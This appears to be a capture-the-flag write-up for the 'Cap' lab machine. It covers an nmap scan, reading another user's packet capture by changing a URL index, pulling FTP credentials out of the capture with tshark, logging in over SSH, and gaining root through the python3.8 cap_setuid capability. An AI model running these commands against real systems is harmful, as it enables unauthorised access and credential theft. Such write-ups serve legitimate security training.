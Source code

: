 ![Cap.PNG](/assets/Machines/Easy/Cap/Cap.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 1 10.10.10.245
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.245
```

**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```


3. Visit page

![web.PNG](/assets/Machines/Easy/Cap/web.PNG)


4. Click on `Security Snapshot`

![security.PNG](/assets/Machines/Easy/Cap/security.PNG)

* URL is: `http://10.10.10.245/data/1`

5. Change the last number in **URL** and search info.

* URL: `http://10.10.10.245/data/0`

![info.PNG](/assets/Machines/Easy/Cap/info.PNG)


6. Download the file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| file 0.pcap 
0.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
```

* The file is **.pcap** you can open with **Wireshark** or **tshark**

7. Open the file with **tshark**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap
```

**Output**
```bash
36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
37   4.126526 192.168.196.16 → 192.168.196.1 TCP 56 21 → 54411 [ACK] Seq=21 Ack=14 Win=64256 Len=0
38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
39   4.167701 192.168.196.1 → 192.168.196.16 TCP 62 54411 → 21 [ACK] Seq=14 Ack=55 Win=1051136 Len=0
40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
```

* The file have credentials, but, you can filter most especific

8. Ways to filter data
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp'
```

* Search how **ftp/tcp/http...**

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tjson 2>/dev/null
```

* Show information in Json

**Output**
```json
...
"tcp.analysis": {
            "tcp.analysis.acks_frame": "67",
            "tcp.analysis.ack_rtt": "0.000101000",
            "tcp.analysis.initial_rtt": "0.000364000",
            "tcp.analysis.bytes_in_flight": "14",
            "tcp.analysis.push_bytes_sent": "14"
          },
          "tcp.payload": "32:32:31:20:47:6f:6f:64:62:79:65:2e:0d:0a"
...
```

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tfields -e tcp.payload 2>/dev/null
```

* Filter for a especific field

```bash
323230202876734654506420332e302e33290d0a
55534552206e617468616e0d0a
33333120506c656173652073706563696679207468652070617373776f72642e0d0a
50415353204275636b33744834544630524d33210d0a
323330204c6f67696e207375636365737366756c2e0d0a
535953540d0a
32313520554e495820547970653a204c380d0a
504f5254203139322c3136382c3139362c312c3231322c3134300d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
4c4953540d0a
313530204865726520636f6d657320746865206469726563746f7279206c697374696e672e0d0a
323236204469726563746f72792073656e64204f4b2e0d0a
504f5254203139322c3136382c3139362c312c3231322c3134310d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
4c495354202d616c0d0a
313530204865726520636f6d657320746865206469726563746f7279206c697374696e672e0d0a
323236204469726563746f72792073656e64204f4b2e0d0a
5459504520490d0a
32303020537769746368696e6720746f2042696e617279206d6f64652e0d0a
504f5254203139322c3136382c3139362c312c3231322c3134330d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
52455452206e6f7465732e7478740d0a
353530204661696c656420746f206f70656e2066696c652e0d0a
515549540d0a
32323120476f6f646279652e0d0a
```

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
```

* Convert hexadecimal data in plain text

```bash
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

9. Credentials to login `username: nathan` and `password: Buck3tH4TF0RM3!`

10. Login with ssh
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| sshpass -p "Buck3tH4TF0RM3\!" ssh nathan@10.10.10.245
```

* The password is `Buck3tH4TF0RM3!`, but, you scape the special character to fix errors.


**Output**
```bash
nathan@cap:~$
```

11. Cat a **user flag**
```bash
nathan@cap:~$ cat user.txt 
0262d1b1331698269a1b63a0d3ccf484
```

---
---

## Escalate privileges 💀

1. Search all capabilities 
```bash
nathan@cap:~$ getcap -r / 2>/dev/null
```


**Output**
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

* **Python3.8** is available, now we exploit this.


2. Get `/bin/bash` how root
```bash
nathan@cap:~$ python3.8 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~| whoami
root
```

3. Read **root flag**
```bash
root@cap:~| cat /root/root.txt 
ab8755bcb4cb8d4d4a841921e7862111
```

